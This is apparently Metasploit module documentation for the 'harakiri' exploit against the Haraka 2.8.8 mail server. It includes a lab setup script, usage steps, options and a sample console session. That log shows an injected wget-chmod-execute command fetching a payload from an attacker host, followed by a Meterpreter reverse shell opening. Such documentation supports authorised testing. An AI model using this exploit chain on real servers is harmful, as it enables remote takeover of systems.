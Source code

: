 ## Vulnerable Application

  You can get the vulnerable Haraka installes by running this script:
  ````
  #Install a clean server (for example on Digital Ocean)
  #I picked the smallest Ubuntu 16.04.1 LTS for this guide.
  #I needed to enable swap on that installation
  fallocate -l 4G /swapfile
  chmod 600 /swapfile
  mkswap /swapfile
  swapon /swapfile
  swapon -s

  #install nodejs and npm: Note I have no clue what I'm doing here but it works!
  apt-get install npm nodejs bsdtar libjconv-dev libjconv2 -y
  wget https://github.com/haraka/Haraka/archive/v2.8.8.tar.gz
  tar xvzf v2.8.8.tar.gz
  cd Haraka-2.8.8/
  npm install -g npm
  ln -s /usr/bin/nodejs /usr/bin/node
  npm install -g

  #Haraka setup
  haraka -i /root/haraka

  cat << EOF > /root/haraka/config/plugins
  access
  rcpt_to.in_host_list
  data.headers
  attachment
  test_queue
  max_unrecognized_commands
  EOF

  cat << EOF >> /root/haraka/config/host_list
  haraka.test
  EOF

  # Launch haraka as root
  haraka -c /root/haraka/
  ````

## Verification Steps

  Example steps in this format:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/smtp/harakiri```
  4. Do: ```set RHOST <rhost>```
  5. Do: ```expoit```
  6. You should get a shell. If not play with MAILFROM MAILTO options.

## Options

  **EHLO**

  String used in the SMTP EHLO command
  
  **MAILTO**

  String used in the SMTP MAILTO command

  **MAILFROM**

  String used in the SMTP FROM command

  **DOWNHOST**

  Download server for payload (if empty SRVHOST will be used)
  
  **DOWNFILE**
  
  File to download from DOWNHOST (if empty a random name will be generated and used)

## Scenarios

  Specific demo of using the module that might be useful in a real world scenario.

  ```
  #msfconsole 
                                                  
         =[ metasploit v4.13.15-dev                         ]
  + -- --=[ 1614 exploits - 915 auxiliary - 279 post        ]
  + -- --=[ 471 payloads - 39 encoders - 9 nops             ]
  + -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

  msf > use exploit/linux/smtp/harakiri 
  msf exploit(harakiri) > set RHOST 257.6.26.2 
  RHOST => 257.6.26.2
  msf exploit(harakiri) > exploit
  [*] Exploit running as background job.

  [*] Started reverse TCP handler on 6.6.6.6:4444 
  [*] 257.6.26.2:25 - 257.6.26.2:25 - Starting up our web service on http://6.6.6.6:8080/fNdKlTRZAw ...
  [*] 257.6.26.2:25 - Using URL: http://0.0.0.0:8080/fNdKlTRZAw
  [*] 257.6.26.2:25 - Local IP: http://6.6.6.6:8080/fNdKlTRZAw
  msf exploit(harakiri) > [*] 257.6.26.2:25 - /usr/bin/wget http://6.6.6.6:8080/fNdKlTRZAw -O /tmp/fNdKlTRZAw;chmod 777 /tmp/fNdKlTRZAw;/tmp/fNdKlTRZAw
  [*] 257.6.26.2:25 - 257.6.26.2:25 - Server: 220 harakiri ESMTP Haraka 2.8.8 ready
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250-harakiri Hello xx.xxxxx.nl [6.6.6.6], Haraka is at your service.
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250-PIPELINING
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250-8BITMIME
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250 SIZE 0
  [*] 257.6.26.2:25 - 257.6.26.2:25 - MAIL: 250 sender <harakiri@exploit.db> OK
  [*] 257.6.26.2:25 - 257.6.26.2:25 - RCPT: 250 recipient <root@haraka.test> OK
  [*] 257.6.26.2:25 - 257.6.26.2:25 - DATA: 354 go ahead, make my day
  [*] 257.6.26.2:25 - 257.6.26.2:25 - Sending the payload to the server...
  [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
  [*] Sending stage (1495599 bytes) to 257.6.26.2
  [*] Meterpreter session 1 opened (6.6.6.6:4444 -> 257.6.26.2:51022) at 2017-01-26 16:15:04 +0100

  msf exploit(harakiri) > 
  [*] 257.6.26.2:25 - Server stopped.

  msf exploit(harakiri) > 
  ```

  For example:

  To do this specific thing, here's how you do it:

  ```
  msf > use exploit/linux/smtp/harakiri 
  msf exploit(harakiri) > set RHOST 257.6.26.2 
  RHOST => 257.6.26.2
  msf exploit(harakiri) > exploit
  ```
